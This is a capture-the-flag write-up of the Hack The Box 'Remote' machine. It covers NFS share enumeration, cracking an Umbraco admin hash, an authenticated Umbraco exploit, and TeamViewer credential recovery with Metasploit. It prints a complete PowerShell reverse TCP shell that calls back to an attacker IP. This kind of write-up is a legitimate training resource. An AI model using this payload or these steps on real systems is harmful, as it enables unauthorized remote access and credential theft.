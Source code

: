 ```yaml
---
layout: single
title: Remote - Hack The Box
excerpt: "Remote is a beginner's box running a vulnerable version of the Umbraco CMS which can be exploited after we find the credentials from an exposed share. After landing a reverse shell, we find that the machine has TeamViewer installed and we can recover the password with Metasploit then log in as Administrator."
date: 2020-09-05
classes: wide
header:
  teaser: /assets/images/htb-writeup-remote/remote_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - nfs
  - umbraco
  - teamviewer
  - metasploit
---
```


![](/assets/images/htb-writeup-remote/remote_logo.png)

Remote is a beginner's box running a vulnerable version of the Umbraco CMS which can be exploited after we find the credentials from an exposed share. After landing a reverse shell, we find that the machine has TeamViewer installed and we can recover the password with Metasploit then log in as Administrator.

## Summary

- Find open NFS share and locate Umbraco credentials inside the SDF file
- Use Umbraco exploit with the admin credentials to get a shell
- Find TeamViewer's credentials using Metasploit
- Log in as administrator with the password from TeamViewer

## Portscan

```
root@kali:~/htb/remote# nmap -sC -sV -p- 10.10.10.180
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-21 19:41 EDT
Nmap scan report for remote.htb (10.10.10.180)
Host is up (0.063s latency).
Not shown: 65518 closed ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
[...]
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
[...]
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Using crackmapexec, we can identity the OS and the domain name.

```
root@kali:~/htb/remote# cme smb 10.10.10.180
SMB         10.10.10.180    445    REMOTE           [*] Windows 10.0 Build 17763 x64 (name:REMOTE) (domain:REMOTE) (signing:False) (SMBv1:False)
```

## Unsuccessful recon

- FTP site allows anonymous connections but doesn't contain anything
- Null sessions are not allowed on the box (can't enumerate users or shares)

## Website

The site is just some company's website and doesn't have anything interesting.

![](/assets/images/htb-writeup-remote/webpage.png)

We can see from the various left around the page and html source code that it's running the Umbraco CMS.

![](/assets/images/htb-writeup-remote/umbraco.png)

We can access the login page at `http://remote.htb/umbraco/` but we don't have any credentials yet.

![](/assets/images/htb-writeup-remote/adminpage.png)

## NFS mount

Using `showmount` we can check which NFS shares are accessible. Here we can see that `site_backups` is accessible by anyone.

```
root@kali:~# showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

We can mount the NFS share to our `/mnt` directory and examine the files contained within.

```
root@kali:~# mount -t nfs 10.10.10.180:site_backups /mnt
root@kali:~# ls -l /mnt
total 115
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 App_Browsers
drwx------ 2 nobody 4294967294  4096 Feb 20 12:17 App_Data
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 App_Plugins
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 aspnet_client
drwx------ 2 nobody 4294967294 49152 Feb 20 12:16 bin
drwx------ 2 nobody 4294967294  8192 Feb 20 12:16 Config
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 css
-rwx------ 1 nobody 4294967294   152 Nov  1  2018 default.aspx
-rwx------ 1 nobody 4294967294    89 Nov  1  2018 Global.asax
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Media
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 scripts
drwx------ 2 nobody 4294967294  8192 Feb 20 12:16 Umbraco
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Umbraco_Client
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Views
-rwx------ 1 nobody 4294967294 28539 Feb 20 00:57 Web.config
```

## Locating the umbraco admin password

I expected the password to be inside `Web.config` or some other plaintext configuration file but I did not find any credentials there. However when I looked at the `Umbraco.sdf` file in the `/mnt/App_Data` folder I saw that it contains some hashed passwords.

![](/assets/images/htb-writeup-remote/sdf.png)

The administrator's SHA-1 hash looks interesting: `b8be16afba8c314ad33d812f22a04991b90e2aaa`

It's easily cracked with john: `baconandcheese`

![](/assets/images/htb-writeup-remote/bacon.png)

Now we can log in to the Umbraco page:

![](/assets/images/htb-writeup-remote/umbracoadmin.png)

## Getting a shell with umbraco exploit

A quick search on Exploit-DB shows there's an authenticated exploit for Umbraco version 7.12.4, which is the exact version running on the box.

![](/assets/images/htb-writeup-remote/searchsploit.png)

![](/assets/images/htb-writeup-remote/version.png)

Here's the modified exploit with the proper credentials and the payload using powershell.exe to reach out to our python webserver and download a powershell payload.

![](/assets/images/htb-writeup-remote/payload1.png)

The payload is a standard Nishang reverse TCP shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

After using the expoit, we can get a shell.

![](/assets/images/htb-writeup-remote/user.png)

## Privesc

I noticed that the TeamViewer service is running on the server.

![](/assets/images/htb-writeup-remote/teamviewer_directory.png)

![](/assets/images/htb-writeup-remote/teamviewer_service.png)

We can find the TeamViewer credentials by using the Metasploit module.

![](/assets/images/htb-writeup-remote/teamviewer.png)

Then we can log in to the box as administrator using WinRM.

![](/assets/images/htb-writeup-remote/root.png)